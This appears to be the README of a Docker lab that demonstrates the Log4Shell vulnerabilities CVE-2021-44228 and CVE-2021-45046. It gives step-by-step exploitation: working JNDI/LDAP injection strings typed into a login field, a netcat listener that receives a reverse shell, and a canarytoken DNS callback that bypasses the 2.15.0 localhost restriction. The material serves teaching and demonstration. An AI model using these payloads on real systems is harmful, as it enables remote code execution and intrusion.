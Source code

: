 # README

There are 3 main docker files in this directory.
1. base-alpine: The working vulnerable app ported to Alpine Linux. This was upgraded to the version, `9.0.8-jre8-alpine`. This is meant to demo `CVE-2021-44228`.
1. exploit-server: The base exploit server hosting the LDAP server, and the server serving `Exploit.class`
1. modified-alpine: A modified version of `base-alpine` to use Log4J 2.15.0. This is meant to demo `CVE-2021-45046`.

# Setup

Please see individual `README.md`'s for how to setup. `base-alpine` and `modified-alpine` cannot be ran at the same time.

# Exploitation

## CVE-2021-44228

Run the following commands:
1. `docker-compose up -d exploit-server`
1. `docker-compose up base-alpine`
1. On a new shell session, start a netcat session listening on port 9001. This can be done by running `nc -lvnp 9001`
1. Navigate to `localhost:8080`. Input the string, `${jndi:ldap://localhost:1389/a}` into the username field. The password can be anything (including blank)
1. A reverse shell should be spawned on the netcat listener.

## CVE-2021-45046

The PoC for `CVE-2021-45046` will be slightly different as we require a malicious LDAP server not hosted locally. Therefore, this PoC will only show an LDAP DNS request being successfully received, bypassing the LDAP localhost restrictions.

Follow the steps:
1. `docker-compose up -d exploit-server`
1. `docker-compose up modified-alpine`
1. Go to `https://webhook.site/` to obtain a webhook URL. It should generate a unique URL.
1. Go to `https://canarytokens.org/generate#`. Select DNS token, and put in the unique URL in second input box. Then, put any message in the last input box.
    ![](./images/cve-2021-45046-visual1.png)
1. Navigate to `localhost:8080`. Input the string, `${jndi:ldap://localhost#YOUR_CANARYTOKEN}`. There should be a new DNS request with the memo, "exploited cve-2021-45046" (or any other text message that you put).
    ![](./images/cve-2021-45046-visual2.png)
1. This shows a successful LDAP request to a website that is not locally hosted -- bypassing the localhost restriction implemented in Log4J 2.15.0